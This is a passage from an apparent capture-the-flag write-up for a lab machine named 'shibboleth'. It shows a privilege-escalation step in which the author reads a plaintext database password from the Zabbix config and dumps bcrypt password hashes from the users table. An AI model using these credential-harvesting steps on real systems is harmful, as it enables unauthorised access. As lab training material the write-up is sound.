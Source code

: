 # ROOT

### Step 1 
- `Sorry, user ipmi-svc may not run sudo on shibboleth.`

Looking for passwords etc in `/etc/zabbix` we find database credentials. From the database we are able to extract three bcrypt (`$2*$`) hashes, however we already know Administrator.
```bash
ipmi-svc@shibboleth:/etc/zabbix$ cat zabbix_server.conf
[... snip ...]
DBName=zabbix
DBUser=zabbix
DBPassword=bloooarskybluh

ipmi-svc@shibboleth:/etc/zabbix$ mysql zabbix -u zabbix -p
Enter password: bloooarskybluh

MariaDB [zabbix]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| zabbix             |
+--------------------+

MariaDB [zabbix]> select * from users;
+--------+---------------+--------------+---------------+--------------------------------------------------------------+-----+-----------+------------+-------+---------+------+------------+----------------+---------------+---------------+---------------+
| userid | alias         | name         | surname       | passwd                                                       | url | autologin | autologout | lang  | refresh | type | theme      | attempt_failed | attempt_ip    | attempt_clock | rows_per_page |
+--------+---------------+--------------+---------------+--------------------------------------------------------------+-----+-----------+------------+-------+---------+------+------------+----------------+---------------+---------------+---------------+
|      1 | Admin         | Zabbix       | Administrator | $2y$10$L9tjKByfruByB.BaTQJz/epcbDQta4uRM/KySxSZTwZkMGuKTPPT2 |     |         0 | 0          | en_GB | 60s     |    3 | dark-theme |              0 | 192.168.139.9 |    1619285020 |            50 |
|      2 | guest         |              |               | $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06 |     |         0 | 15m        | en_GB | 30s     |    1 | default    |              0 |               |             0 |            50 |
|      3 | Administrator | IPMI Service | Account       | $2y$10$FhkN5OCLQjs3d6C.KtQgdeCc485jKBWPW4igFVEgtIP3jneaN7GQe |     |         0 | 0          | en_GB | 60s     |    2 | default    |              0 |               |             0 |            50 |
+--------+---------------+--------------+---------------+--------------------------------------------------------------+-----+-----------+------------+-------+---------+------+------------+----------------+---------------+---------------+---------------+

```
